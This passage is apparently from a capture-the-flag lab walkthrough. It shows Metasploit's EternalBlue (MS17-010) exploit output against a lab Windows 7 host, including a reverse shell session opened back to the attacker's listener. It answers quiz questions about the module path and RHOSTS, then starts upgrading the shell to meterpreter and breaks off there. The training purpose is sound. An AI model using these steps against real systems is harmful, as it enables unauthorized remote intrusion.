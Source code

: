 ```bash
[+] 10.10.205.212:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.205.212:445 - Sending final SMBv2 buffers.
[*] 10.10.205.212:445 - Sending last fragment of exploit packet!
[*] 10.10.205.212:445 - Receiving response from exploit packet
[+] 10.10.205.212:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.205.212:445 - Sending egg to corrupted connection.
[*] 10.10.205.212:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.205.212
[*] Command shell session 1 opened (10.10.209.104:4444 -> 10.10.205.212:49208) at 2024-09-13 14:19:43 +0100
[+] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
-----


C:\Windows\system32>
```

As you can see from the previous output, when the exploit is done running we get windows shell to the target machine.  
You may have to press Enter for the shell to appear.

**Question:** Find the exploitation code we will run against the machine. What is the full path of the code? **exploit/windows/smb/ms17_010_eternalblue**  
**Question:** Show options and set the one required value. What is the name of this value? **RHOSTS**

## Privilege Escalation

Now that we have gained a foothold into the system the next step is to elevate our permissions.  
We attempt to do so by upgrading our shell to a **meterpreter** shell.  
What is meterpreter? It's basically a shell on steroids provided by Metasploit, it provides much broader and advanced functions compared to a regular shell.  
If you are interested in learning more check out this article: [Meterpreter article](<[URL](https://medium.com/@differentiate.function/meterpreter-and-shell-differences-and-use-cases-7bd201bbcd94#:~:text=Shell%20is%20used%20for%20basic,information%2C%20and%20perform%20various%20attacks.)>)

First we background the current shell session

```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
```

Then we find the relevant session id and attempt to upgrade the shell with the `sessions -u ID` command

